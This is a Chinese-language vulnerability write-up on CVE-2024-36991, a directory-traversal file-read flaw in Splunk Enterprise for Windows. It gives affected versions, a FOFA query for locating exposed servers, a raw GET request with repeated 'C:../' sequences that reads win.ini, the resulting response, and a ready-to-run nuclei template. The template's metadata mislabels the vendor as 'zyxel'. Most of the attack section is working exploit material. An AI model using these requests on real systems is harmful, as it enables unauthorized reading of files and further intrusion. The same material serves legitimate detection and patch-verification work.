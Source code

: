 **漏洞名称**

Splunk Enterprise for Windows 任意文件读取漏洞

**影响范围**

影响范围

9.2.0 <= Splunk Enterprise < 9.2.2

9.1.0 <= Splunk Enterprise < 9.1.5

9.0.0 <= Splunk Enterprise < 9.0.10

**漏洞描述**

Splunk Enterprise 是一款强大的数据分析软件，它允许用户从各种来源收集、索引和搜索机器生成的数据。2024年7月，官方发布安全通告，披露 CVE-2024-36991 Splunk Enterprise Windows平台 modules/messaging 目录遍历漏洞。漏洞仅影响 Windows平台上的 Splunk Enterprise，官方已发布安全更新，建议升级至最新版本。

**FOFA搜索语句**

app="splunk-Enterprise"

**漏洞复现**

向靶场发送如下数据包读取/windows/win.ini文件

```
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../windows/win.ini HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS x86_64 14541.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Connection: close
Accept-Encoding: gzip
```

响应内容如下

```yaml
HTTP/1.1 200 OK
Connection: close
Accept-Ranges: bytes
Content-Type: text/html
Date: Sat, 06 Jul 2024 03:23:04 GMT
Last-Modified: Sat, 07 Dec 2019 09:12:42 GMT
Server: Splunkd
Set-Cookie: session_id_8000=e1e84e42c833f84a35dd06aa1b4409c4f3805ee3; expires=Sat, 06 Jul 2024 04:23:04 GMT; HttpOnly; Max-Age=3600; Path=/
Vary: Accept-Encoding, Cookie
X-Content-Type-Options: nosniff

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

**nuclei poc**

```yaml
id: CVE-2024-36991

info:
  name: Splunk Enterprise for Windows 任意文件读取漏洞
  author: fgz
  severity: high
  description: |
    Splunk Enterprise 是一款强大的数据分析软件，它允许用户从各种来源收集、索引和搜索机器生成的数据。2024年7月，官方发布安全通告，披露 CVE-2024-36991 Splunk Enterprise Windows平台 modules/messaging 目录遍历漏洞。漏洞仅影响 Windows平台上的 Splunk Enterprise，官方已发布安全更新，建议升级至最新版本。
  reference:
    - https://advisory.splunk.com/advisories/SVD-2024-0711
    - https://research.splunk.com/application/e7c2b064-524e-4d65-8002-efce808567aa
  classification:
    cvss-score: 7.1
    cve-id: CVE-2024-36991
  metadata:
    verified: true
    max-request: 1
    vendor: zyxel
    product: Splunk Enterprise
    fofa-query: app="splunk-Enterprise"
  tags: cve,cve2024,splunk-Enterpris

http:
  - raw:
      - |
        GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../windows/win.ini HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200"
          - "contains(body, '; for 16-bit app support')"
        condition: and

```

